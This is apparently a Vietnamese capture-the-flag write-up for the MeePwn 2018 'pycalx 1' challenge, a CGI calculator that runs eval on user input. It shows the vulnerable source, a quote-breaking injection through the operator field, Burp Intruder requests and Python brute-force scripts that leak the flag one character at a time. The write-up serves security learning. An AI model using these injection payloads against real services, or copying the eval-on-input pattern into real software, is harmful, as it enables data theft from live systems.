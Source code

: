 ```yaml
---
title: "Meepwn qual round - pycalx 1"
date: 2018-09-11T02:38:33+07:00
author: "Kev"
tags: ["ctf", "python"]
comments: true
draft: false
---
```


Thử thách cung cấp cho mình 1 form dữ liệu cùng với sourcecode như sau:

{{<highlight python3>}}
#!/usr/bin/env python
import cgi;
import sys
from html import escape

FLAG = open('/var/www/flag','r').read()

OK_200 = """Content-type: text/html

<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css">
<center>
<title>PyCalx</title>
<h1>PyCalx</h1>
<form>
<input class="form-control col-md-4" type=text name=value1 placeholder='Value 1 (Example: 1  abc)' autofocus/>
<input class="form-control col-md-4" type=text name=op placeholder='Operator (Example: + - * ** / // == != )' />
<input class="form-control col-md-4" type=text name=value2 placeholder='Value 2 (Example: 1  abc)' />
<input class="form-control col-md-4 btn btn-success" type=submit value=EVAL />
</form>
<a href='?source=1'>Source</a>
</center>
"""

print(OK_200)
arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>'+escape(str(open(__file__,'r').read()))+'</pre>')

if 'value1' in arguments and 'value2' in arguments and 'op' in arguments:

    def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            print('<center>Invalid value</center>')
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)

    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)

    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))

    print('<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>')
    print('>>>> print('+escape(calc_eval)+')')

    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print("Invalid") # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")


    print('>>> </pre></div></div></div>')
{{</highlight>}}

Server nhận dữ liệu ở 3 biến: `value1`, `value2` và `op`. Cả 3 biến đều bị filter, chức năng là thực hiện phép tính nhập từ người dùng.

{{<highlight python>}}
>>>> print('aa'+'bbb')
Invalid
>>>
>>>> print(1111*222)
246642
{{</highlight>}}

Mục đích rất rõ ràng, phải tìm cách để gọi biến Flag ra, nhưng xem code ở dòng này thì chương trình đã chặn output (tức là dạng blind).

{{<highlight python>}}
if result.isdigit() or result == 'True' or result == 'False':
    print(result)
else:
    print("Invalid")
{{</highlight>}}

Khi rà soát lại code, mình phát hiện code có 1 điểm hơi lạ, ở function `get_op(val)` nhận độ dài biến val tận 2 kí tự nhưng chỉ filter đúng kí tự đầu, nên mình nghĩ ra cách để break dấu `'` chèn biến `FLAG` vào, đồng thời thực hiện so sánh để nhận giá trị `True`, `False`.

{{<highlight python>}}
>>>> print('a'+''<FLAG#')
False
{{</highlight>}}

Có vẻ đi đúng hướng, được biết trước là flag có dạng `MeePwnCTF{}` tiếp theo mình test thế này:

{{<highlight python>}}
>>>> print('L'+''>FLAG#')
False
>>>
>>>> print('M'+''>FLAG#')
False
>>>
>>>> print('N'+''>FLAG#')
True
{{</highlight>}}

Test theo bảng chữ `printable` từ đầu đến khi gặp response trả về là `True` và lấy kí tự trước đó:

{{<highlight python3>}}
# python 3.6
import requests
import string
import sys
from urllib.parse import quote_plus
url = "http://178.128.96.203/cgi-bin/server.py?value1={}&op=%2B%27&value2=%3EFLAG%23"
wordlist = list(string.printable[:-6])
wordlist.sort()
temp = "_"
flag = "MeePwnCTF{"
while True:
	for char in wordlist:
		sys.stdout.write(temp)
		sys.stdout.flush()
		r = requests.get(url.format(quote_plus(flag+char)))
		if ("True" in r.text):
			flag += temp
			break
		temp = char
		sys.stdout.write("\b")
{{</highlight>}}

Flag chạy tới đoạn `MeePwnCTF{python3.66666666666666_` thì bị lỗi. Có anh trong team bảo là do trong flag có kí tự bị chặn `[]()'"` nên không chạy tiếp được nữa. Lúc này mình tưởng ra flag rồi, ai ngờ …..đành tính cách khác. Suy nghĩ hơi lâu không tìm ra được cách nào để gửi lên kí tự bị chặn đấy nhưng mình có kế tạm thời là đoán tất cả những kí tự không bị chặn nhưng chưa tìm ra, ví dụ `MeePwnCTF{python3.66666666666666_*[][][][][]*xxxxxxxxx}` mình có thể tìm được kí tự xxxx đó mà không cần biết kí tự đặc biệt. Payload mình build như sau:

{{<highlight python>}}
>>>> print('Mee'+'' in FLAG#')
True
>>>
>>>> print('}'+'' in FLAG#')
True
{{</highlight>}}

Sourcecode trước không dùng được nữa nên mình dùng burp suite intruder thay thế (mất thời gian quá {{<emoji ah>}})

```
GET /cgi-bin/server.py?value1=§_§&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm tất cả kí tự có trong FLAG
```

{{<figure src="/images/uploads/meepwn.png" width="100%" title="Burpsuite intruder">}}

Tiếp đó, mình sẽ đoán cụm từ trong flag

```
GET /cgi-bin/server.py?value1=§_§a&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm kí tự đứng trước a
GET /cgi-bin/server.py?value1=a§_§&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm kí tự đứng sau a
```

Cứ như thế đến hết danh sách kí tự tìm được thì mình tìm được 80% flag như là `MeePwnCTF{python3.66666666666666_*you_passed_this?*}` dấu * là kí tự đặc biệt. Sau khi làm xong bước này thì anh trong team quăng cho payload:

```
http://178.128.96.203/cgi-bin/server.py
?value1=M
&op=%2B%27
&value2= %2b source < FLAG%23
&source=e
>>>> print('M'+'' + source < FLAG#')
True
```

Vậy là xong, biến source không bị filter nên thoải mái mà inject. Payload cuối cùng là thế này:

{{<highlight python3>}}
# Python 3.6
import requests
import string
import sys
from urllib.parse import quote_plus
# url = "http://178.128.96.203/cgi-bin/server.py?value1={}&op=%2B%27&value2=%3EFLAG%23"
url = "http://178.128.96.203/cgi-bin/server.py?value1=MeePwnCTF%7bpython3.66666666666666_&op=%2B%27&value2=%20%2b%20source%20%3E%20FLAG%23&source={}"
wordlist = list(string.printable[:-6])
wordlist.sort()
temp = "_"
flag = ""
sys.stdout.write("MeePwnCTF{python3.66666666666666_")
while True:
	for char in wordlist:
		sys.stdout.write(temp)
		sys.stdout.flush()
		r = requests.get(url.format(quote_plus(flag+char)))
		if ("True" in r.text):
			flag += temp
			break
		temp = char
		sys.stdout.write("\b")
{{</highlight>}}


FLAG: `MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}`